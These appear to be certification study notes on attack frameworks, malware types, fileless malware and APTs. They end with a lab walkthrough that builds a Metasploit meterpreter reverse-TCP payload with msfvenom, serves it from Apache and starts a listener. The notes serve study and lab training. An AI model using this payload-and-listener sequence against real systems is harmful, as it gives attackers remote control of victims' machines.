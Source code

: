 #### Electronic warfare: 
* Electronic warfare uses radio electronic and cryptographic techniques to degrade communication. Radio electronic techniques attack the physical means of sending information, whereas cryptographic techniques use bits and bytes to disrupt the means of sending information.


# ATTACK FRAMEWORKS

## 1. Cyber Kill Chain: 
    Reconnaissance
    Weaponisation
    Delivery
    Exploitation
    Installation
    Command and Control
    Actions on Objectives


## 2. MITRE ATT&CK FRAMEWORK
### PRE-ATT&CK Techniques:
    Recon
    Weaponize
### Enterprise ATT&CK Techniques:
    Deliver
    Exploit
    Control
    Execute
    Maintain

## 3. Diamond Model
### Essential Features
    Adversary
    Capability
    Victim
    Infrastructure

### Meta-Features
    1. Timestamp
    2. Phase
    3. Result
    4. Direction:
        Direction of attack eg. how adversary was routed to victim

    5. Methodology: 
        Technique use dby adversary/overall class of action eg. Phishing, DDoS, drive-by etc
    6. Resource: 
        Tools or tech used for the attack

#### Host-Based Indicators: 
Host-based indicators are found by performing an analysis of the infected system within the organizational network. Examples of host-based indicators include filenames, file hashes, registry keys, DLLs, and mutex

#### Behavioral Indicators: 
Behavioral IoCs are used to identify specific behavior related to malicious activities such as code injection into the memory or running an application's scripts. Well-defined behaviors enable broad protection to block all current and future malicious activities


# MODULE 7: MALWARE

## Techniques used to distribute malware
    Increasingly popular method is Search Engine Optimization (SEO): This is where attackers ensure their page comes out on top of search results

## Trojan Components

**Crypter**: *Software that protects against reverse engineering* 

**Downloader**: *Trojan that download other malware onto host*

**Dropper**: *Trojan that **covertly installs** other malware in system*

**Wrapper**: *Binds Trojan executable with genuine looking EXE*

**Exploit**: *Exploit.**The exploit carries the payload***

**Injector**: *Program that injects exploits or malicious code in malware into other vulnerable running processes and changes method of execution to hide or prevent removal*

**Obfuscator**: *Program that conceals malicious code of malware*

**Packer**: *Software that compresses malware file to convert code and data into unreadable format*

**Payload**: *Payload. The item which actually does the damage. **The exploit carries the payload***

**Malicious Code**: *Fundamental code that defines basic functionality of malware. May take form of Java Applets, ActiveX Controls, Browser Plugins etc*

### Types of Trojans

<img src='IMAGES/TrojanTypes.png'>


## Viruses

### Stages of Virus Lifecycle
<img src='IMAGES/VirusLifecycle.png'>


### Types of Viruses
<img src='IMAGES/VirusTypes.png'>

    Metamorphic viruses are more effective than polymorphic viruses. 
    
    Polymorphic viruses modify their code for each replication to avoid detection.

    Metamorphic viruses are programmed to rewrite themselves completely each time they reinfect a file.
---

## Fileless Malware

Malware that resides in RAM, and **executes in RAM**. Leaves no trace/detection method. Infects legitimate software and appplications via vulnerabilities.

<img src='IMAGES/FilelessMalware.png'>

> Type 1: EG. Receiving malicious packets that exploits vulnerability which automatically installs backdoor.

> Type 2: EG. Injecting malicious PS command into WMI repo to configure filter

> Type 3: Exploiting documents with embedded macro, or EXE files to inject malicious payloads into host

## Advanced Persistent Threats (APT)

Generally in the system for long periods of time. Plenty of other characteristics; refer to diagram.



> **APT Lifecycle**: Preparation, Initial Intrusion, Expansion, Persistence, Search & Exfiltration, Cleanup
<img src='IMAGES/APTLifecycle.png'>


# SYSTEM HACKING
Writing of payloads with MSFVenom. LHOST is host (attacker) machine.
**REMEMBER TO CHANGE PERMISSIONS WITH CHOWN/CHMOD FOR ALL FILES, EVEN APACHE**

    
    msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe

Creating of *share* folder of Apache directory.

    /var/www/html/share

Changing of permissions for the share folder.

     chown -R www-data:www-data /var/www/html/share


Copy over the payload into the *share* folder

Starting of Apache Server.

    service apache2 start

Enabling listener via msfconsole, use handler exploit.

     use exploit/multi/handler

Set the correct payload since default payload may not be correct. In this case, it is setting payload to *reverse_tcp*. 

    set payload windows/meterpreter/reverse_tcp

Check and set *options* such as LHOST, LPORT etc. Start exploit after to start listener.

Access LHOST IP/Port in victim machine and download the payload, and execute to connect to listener.

